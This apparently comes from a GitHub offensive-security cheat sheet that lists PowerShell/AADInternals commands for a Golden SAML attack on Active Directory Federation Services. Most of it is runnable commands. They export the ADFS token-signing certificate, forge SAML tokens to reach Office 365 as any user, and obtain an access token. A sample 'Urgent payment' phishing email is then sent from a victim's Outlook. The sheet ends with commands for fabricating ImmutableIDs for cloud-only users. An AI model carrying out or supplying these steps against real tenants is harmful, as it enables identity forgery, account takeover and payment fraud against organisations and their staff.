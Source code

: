 ## Federation-ADFS
- ADFS = Active Directory Federation Services
- Golden SAML Attack

#### Get the ImmutableID
```
[System.Convert]::ToBase64String((Get-ADUser -Identity onpremuser | select -ExpandProperty ObjectGUID).tobytearray())
```

#### Get the AD FS identifier issuer:
```
Get-AdfsProperties | select identifier
```

#### Can check the IssuerURI from Azure AD too (Use MSOL module and need GA privs)
```
Get-MsolDomainFederationSettings -DomainName <DOMAIN> | select IssuerUri
```

#### Extract the ADFS token signing certificate
- If no file name is given, the certificate is exported to the current directory as ADFSSigningCertificate.pfx with empty pfx password.
```
Import-Module .\AADInternals.psd1
Export-AADIntADFSSigningCertificate
```

#### Access cloud apps as any user
```
Open-AADIntOffice365Portal -ImmutableID <IMMUTABLE ID> -Issuer <ISSUER> -PfxFileName <PATH TO ADFSSigningCertificate.pfx> -Verbose
```

#### Create SAML Token
```
$saml=New-AADIntSAMLToken -ImmutableID <IMMUTABLE ID> -PfxFileName <PATH TO ADFSSigningCertificate.pfx> -PfxPassword "" -Issuer <ISSUER>
```

#### Get OAUTH access token used with AADInternal functions
```
$at=Get-AADIntAccessTokenForEXO -SAMLToken $saml
```

#### Send a message using "Outlook"
```
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```

### Creating tokens for cloud-only users
#### Create a realistic ImmutableID
```
$ImmutableID = [System.Convert]::ToBase64String((New-Guid).tobytearray())
```

